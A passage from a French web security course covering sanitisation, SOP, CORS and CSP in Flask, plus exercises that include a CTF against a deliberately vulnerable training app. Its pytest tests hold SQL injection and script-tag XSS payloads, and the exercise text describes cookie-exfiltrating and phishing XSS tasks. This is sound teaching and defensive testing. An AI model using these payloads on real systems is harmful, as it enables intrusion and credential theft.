    raw_comment = request.form['comment']
    clean_comment = bleach.clean(
        raw_comment,
        tags=ALLOWED_TAGS,
        attributes=ALLOWED_ATTRIBUTES,
        strip=True
    )
    db.add_comment(clean_comment)
    return redirect('/comments')
```

**Méthode 4 : Validation stricte avec contexte**

```python
# ✅ Échappement contextuel
from markupsafe import escape
import json

@app.route('/profile')
def profile():
    username = get_current_user().username

    # Contexte HTML
    html_safe = escape(username)

    # Contexte JavaScript
    js_safe = json.dumps(username)  # Quote + escape pour JS

    # Contexte URL
    from urllib.parse import quote
    url_safe = quote(username)

    return render_template('profile.html',
                          html_user=html_safe,
                          js_user=js_safe,
                          url_user=url_safe)
```

---

## Module 1.6 - Protections navigateur (30 min)

### 1.6.1 Same-Origin Policy (SOP)

Une origine = **Protocole + Domaine + Port**

```
https://app.com:443/page1  ✅ même origine que  https://app.com:443/page2
https://app.com           ❌ différente de       http://app.com   (protocole)
https://app.com           ❌ différente de       https://api.app.com (sous-domaine)
https://app.com:443       ❌ différente de       https://app.com:8443 (port)
```



### 1.6.2 CORS (Cross-Origin Resource Sharing)

Mécanisme contrôlé pour autoriser des requêtes cross-origin légitimes.

```python
# ✅ Configuration CORS sécurisée avec Flask-CORS
from flask_cors import CORS

app = Flask(__name__)

# Configuration RESTRICTIVE recommandée
CORS(app,
     resources={r"/api/*": {
         "origins": ["https://trusted-frontend.com"],  # PAS de *
         "methods": ["GET", "POST", "PUT", "DELETE"],
         "allow_headers": ["Content-Type", "Authorization"],
         "supports_credentials": True,
         "max_age": 3600
     }})
```

**❌ Configuration dangereuse à éviter** :

```python
# 🚨 NE JAMAIS FAIRE
CORS(app, origins="*", supports_credentials=True)
# Combinaison * + credentials = catastrophe sécurité
```

**Quand un preflight est-il déclenché ?** Le navigateur envoie une requête OPTIONS préliminaire pour les requêtes dites *non simples* :
- Méthode autre que GET, POST, HEAD
- Headers personnalisés (Authorization, X-Requested-With...)
- Content-Type différent de `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain`

### 1.6.3 Content Security Policy (CSP)

CSP permet de définir une whitelist des sources autorisées pour chaque type de ressource.

```python
# ✅ Configuration CSP avec Flask-Talisman
from flask_talisman import Talisman

csp = {
    'default-src': "'self'",
    'script-src': [
        "'self'",
        'https://cdn.jsdelivr.net',
        "'nonce-{nonce}'"  # Nonce pour scripts inline
    ],
    'style-src': [
        "'self'",
        "'unsafe-inline'"  # Tolérable pour styles
    ],
    'img-src': ["'self'", 'data:', 'https:'],
    'font-src': ["'self'", 'https://fonts.gstatic.com'],
    'connect-src': "'self'",
    'frame-ancestors': "'none'",  # Anti-clickjacking
    'form-action': "'self'",
    'base-uri': "'self'",
    'object-src': "'none'"
}

Talisman(app,
         content_security_policy=csp,
         content_security_policy_nonce_in=['script-src'])
```

**Configuration manuelle des headers** :

```python
# ✅ Headers de sécurité manuels
@app.after_request
def set_security_headers(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self' 'nonce-abc123'; "
        "style-src 'self' 'unsafe-inline'; "
        "img-src 'self' data:; "
        "frame-ancestors 'none'"
    )
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin'
    return response
```

### 1.6.4 Tableau comparatif

| Mécanisme | Rôle | Configuration |
|-----------|------|---------------|
| **SOP** | Isolation par défaut entre origines | Automatique navigateur |
| **CORS** | Exceptions contrôlées à SOP | Headers serveur |
| **CSP** | Whitelist de sources de contenu | Header HTTP ou meta |
| **HSTS** | Force HTTPS | Header `Strict-Transport-Security` |
```

**Séquence d'appel cross-origin avec CORS** : le navigateur envoie d'abord une requête preflight OPTIONS pour vérifier les droits, puis la requête réelle si autorisée.



---

# 📝 EXERCICES SÉANCE 1

## Exercice 1.A - Cartographie et analyse RGPD (Rendu en fin de séance)
**Durée : 45 min - Pondération : 20%**

### Contexte
Vous venez de rejoindre l'équipe de développement d'une plateforme e-commerce. Vous devez réaliser un audit initial de l'application VulnPyApp.

### Travail demandé

**Partie 1 - Cartographie automatisée (15 min)**

Créer un script `cartographie.py` qui :
1. Crawl l'application complète
2. Identifie tous les endpoints (URL distinctes)
3. Liste tous les formulaires avec leurs champs
4. Détecte les endpoints API (routes `/api/*`)
5. Génère un rapport au format Markdown

**Squelette fourni** :

```python
# cartographie.py
import requests
from bs4 import BeautifulSoup
from urllib.parse import urljoin, urlparse
import json

class SecurityAuditor:
    def __init__(self, base_url):
        self.base_url = base_url
        self.report = {
            'endpoints': set(),
            'forms': [],
            'apis': set(),
            'sensitive_data': []
        }

    def crawl(self, url=None, depth=0, max_depth=3):
        # TODO : Implémenter le crawler
        pass

    def detect_sensitive_data(self, response):
        # TODO : Détecter emails, numéros de téléphone, etc.
        # Utiliser des regex pour identifier des patterns sensibles
        pass

    def generate_markdown_report(self):
        # TODO : Générer un rapport Markdown
        pass

if __name__ == '__main__':
    auditor = SecurityAuditor('http://localhost:5000')
    auditor.crawl()
    print(auditor.generate_markdown_report())
```

**Partie 2 - Analyse RGPD (30 min)**

Rédiger un document `analyse_rgpd.md` contenant :

1. **Matrice des risques** (minimum 8 fonctionnalités) :

| Fonctionnalité | Données collectées | Base légale RGPD | Menaces | Impact (1-5) | Probabilité (1-5) | Score risque |
|----------------|-------------------|------------------|---------|--------------|-------------------|--------------|
| ... | ... | ... | ... | ... | ... | ... |

2. **Checklist RGPD** détaillée avec analyse pour chaque point :
   - Minimisation des données
   - Consentement explicite tracé
   - Droit d'accès implémenté
   - Droit à l'effacement
   - Portabilité
   - Procédure de notification de fuite
   - Politique de conservation
   - Chiffrement des données sensibles

3. **3 non-conformités majeures identifiées** avec recommandations techniques

### Livrables attendus
- `cartographie.py` (script fonctionnel)
- `rapport_cartographie.md` (généré)
- `analyse_rgpd.md` (rédigé)

### Critères d'évaluation
- Fonctionnalité du script de cartographie (30%)
- Exhaustivité de la matrice des risques (30%)
- Pertinence de l'analyse RGPD (30%)
- Qualité rédactionnelle et structuration (10%)

---

## Exercice 1.B - CTF Injections SQL et XSS (Rendu à S+1)
**Durée : à rendre dans la semaine - Pondération : 50%**

### Contexte
Mise en situation : vous êtes engagé(e) comme pentester pour auditer VulnPyApp. Vous devez démontrer 6 vulnérabilités et fournir les correctifs.

### Challenges à réaliser

**Volet SQLi (3 challenges)** :

**Challenge SQLi-1 : Bypass d'authentification**
- Se connecter en tant qu'admin sans connaître le mot de passe
- Fournir le payload utilisé et une capture d'écran

**Challenge SQLi-2 : Extraction de données via UNION**
- Écrire un script Python `exploit_sqli_union.py` qui :
  - Détecte automatiquement le nombre de colonnes
  - Extrait la liste complète des tables
  - Extrait tous les emails et hashes de mots de passe

**Challenge SQLi-3 : Blind SQLi time-based**
- Écrire un script `exploit_blind_sqli.py` qui extrait, caractère par caractère, le hash MD5 du mot de passe de l'utilisateur `admin@vulnpyapp.local` depuis la table `users` via l'endpoint `/search`, sans accès direct à la BDD
- Bonus : casser le hash MD5 obtenu avec un dictionnaire (ex. `hashcat`, `john`)

**Volet XSS (3 challenges)** :

**Challenge XSS-1 : Reflected XSS**
- Identifier un endpoint vulnérable
- Créer un payload qui exfiltre les cookies vers un serveur d'écoute

**Challenge XSS-2 : Stored XSS**
- Poster un commentaire qui exécute un script chez tous les visiteurs
- Le script doit afficher une fausse popup de connexion (phishing)

**Challenge XSS-3 : Contournement de filtre**
- Un endpoint a un filtre basique (blocage de `<script>`)
- Trouver au moins 3 payloads contournant ce filtre

### Volet correction (obligatoire)

Pour chaque vulnérabilité, fournir :
1. Le code original vulnérable (extrait du repo)
2. Le code corrigé avec explications des choix
3. Un test unitaire en pytest qui valide la correction

**Exemple de structure de test attendue** :

```python
# tests/test_security_fixes.py
import pytest
from app import create_app, db
from app.models import User

@pytest.fixture
def client():
    app = create_app('testing')
    with app.test_client() as client:
        with app.app_context():
            db.create_all()
            yield client
            db.drop_all()

class TestSQLInjectionFix:
    def test_login_resists_sql_injection(self, client):
        """L'authentification résiste à l'injection SQL"""
        payloads = [
            "admin@vulnpyapp.local' OR '1'='1",
            "admin' --",
            "' OR 1=1 --",
        ]
        for payload in payloads:
            response = client.post('/login', data={
                'email': payload,
                'password': 'anything'
            })
            assert response.status_code in [401, 400]
            assert 'dashboard' not in response.location if response.location else True

    def test_search_uses_parameterized_query(self, client):
        """La recherche utilise des requêtes paramétrées"""
        # Tester avec un payload qui causerait une erreur SQL si non paramétré
        response = client.get("/search?q=' UNION SELECT NULL--")
        assert response.status_code == 200
        assert 'sqlite' not in response.data.decode().lower()
        assert 'error' not in response.data.decode().lower()

class TestXSSFix:
    def test_search_escapes_html(self, client):
        """La recherche échappe correctement le HTML"""
        payload = "<script>alert('XSS')</script>"
        response = client.get(f'/search?q={payload}')
        assert b'<script>' not in response.data
        assert b'&lt;script&gt;' in response.data

    def test_comment_sanitizes_input(self, client):
        """Les commentaires sont sanitizés"""
        client.post('/login', data={'email': 'user@test.com', 'password': 'test'})
        client.post('/comment', data={
            'content': '<script>alert(1)</script><b>Bold</b>'
        })
        response = client.get('/comments')
        assert b'<script>' not in response.data
        assert b'<b>Bold</b>' in response.data  # Les balises sûres sont gardées
```

### Bonus (+20% sur la note)

Configurer une **CSP fonctionnelle** qui :
- Bloque les XSS démontrés ci-dessus
- Permet quand même le bon fonctionnement de l'application
- Utilise des nonces pour les scripts inline nécessaires

Fournir :
- Le code de configuration CSP
- Une preuve que les payloads XSS sont bloqués (capture des erreurs CSP dans la console)

### Livrables attendus

Une archive `<NOM>_ctf_seance1.zip` contenant :
```
├── exploits/
│   ├── exploit_sqli_auth.py
│   ├── exploit_sqli_union.py
│   ├── exploit_blind_sqli.py
│   ├── exploit_xss_reflected.py
│   ├── exploit_xss_stored.py
│   └── exploit_xss_filter_bypass.py
├── corrections/
│   ├── routes_fixed.py
│   └── templates_fixed/
├── tests/
│   └── test_security_fixes.py
├── csp_config.py (bonus)
└── rapport.md (synthèse avec captures)
```

### Critères d'évaluation

| Critère | Pondération |
|---------|-------------|
| Exploits SQLi fonctionnels (3) | 25% |
| Exploits XSS fonctionnels (3) | 25% |
| Qualité des corrections | 25% |
| Tests pytest valides et complets | 15% |
| Qualité du rapport | 10% |
| Bonus CSP | +20% |

---

## Exercice 1.C - Quiz fondamentaux (Fin de séance)
**Durée : 15 min - Pondération : 30%**

QCM de 20 questions sur :
- Triade CIA et concepts fondamentaux
- Principes RGPD applicables
- Mécanismes d'injection SQL
- Types et fonctionnement des XSS
- SOP, CORS, CSP

---

